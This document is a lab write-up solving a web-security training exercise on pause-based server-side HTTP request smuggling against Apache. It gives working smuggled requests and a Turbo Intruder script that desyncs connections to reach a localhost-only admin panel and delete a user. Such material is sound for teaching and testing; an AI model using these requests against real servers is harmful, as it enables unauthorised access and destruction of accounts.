


# Server-side pause-based request smuggling

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync/lab-server-side-pause-based-request-smuggling) is vulnerable to pause-based server-side request smuggling. The front-end server streams requests to the back-end, and the back-end server does not close the connection after a timeout on some endpoints. See [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling: Pause](https://portswigger.net/research/browser-powered-desync-attacks#pause).

## Reproduction and proof of concept

### Identify a desync vector

1. In Burp, notice from the Server response header that the lab is using Apache 2.4.52. This version of Apache is potentially vulnerable to pause-based CL.0 attacks on endpoints that trigger server-level redirects.
2. In Burp Repeater, try issuing a request for a valid directory without including a trailing slash, for example, `GET /resources`. Observe that you are redirected to `/resources/`.
3. Right-click the request and select **Extensions -> Turbo Intruder -> Send to Turbo Intruder**.
4. In Turbo Intruder, convert the request to a `POST` request (right-click and select Change request method).
5. Change the `Connection` header to `keep-alive`.
6. Add a complete `GET /admin` request to the body of the main request. The result should look something like this:

```html
POST /resources HTTP/1.1
Host: lab-id.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/ HTTP/1.1
Host: lab-id.web-security-academy.net
```

7. In the Python editor panel, enter the following script. This issues the request twice, pausing for 61 seconds after the \r\n\r\n sequence at the end of the headers:

```html
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

8. Launch the attack. Initially, you won't see anything happening, but after 61 seconds, you should see two entries in the results table:
* The first entry is the `POST /resources` request, which triggered a redirect to `/resources/` as normal.
* The second entry is a response to the `GET /admin/` request. Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.

### Exploit

1. In Turbo Intruder, go back to the attack configuration screen. In your smuggled request, change the Host header to localhost and relaunch the attack.
2. After 61 seconds, notice that you have now successfully accessed the admin panel.



3. Study the response and observe that the admin panel contains an HTML form for deleting a given user. Make a note of the following details:
* The action attribute (`/admin/delete`).
* The name of the input (`username`).
* The csrf token.
4. Go back to the attack configuration screen. Use these details to replicate the request that would be issued when submitting the form. The result should look something like this:

```text
POST /resources HTTP/1.1
Host: 0aff002604254014c2210d27007f0098.web-security-academy.net
Cookie: session=4TP6Vc87hbPHTBC3t1NrkMur72FnhtII
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: CORRECT

csrf=eEtdwzBFbHWNIMY4LkkR5tSVtK1LYCPU&username=carlos
    
    
```
    
5. To prevent Turbo Intruder from pausing after both occurrences of \r\n\r\n in the request, update the pauseMarker argument so that it only matches the end of the first set of headers, for example:

```text
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```


    
6. Launch the attack.
7. After 61 seconds, the lab is solved.

## Exploitability

An attacker will need to identify a pause-based CL.0 desync vector; smuggle a request to the back-end to the admin panel at `/admin`; and then delete the user `carlos`. 
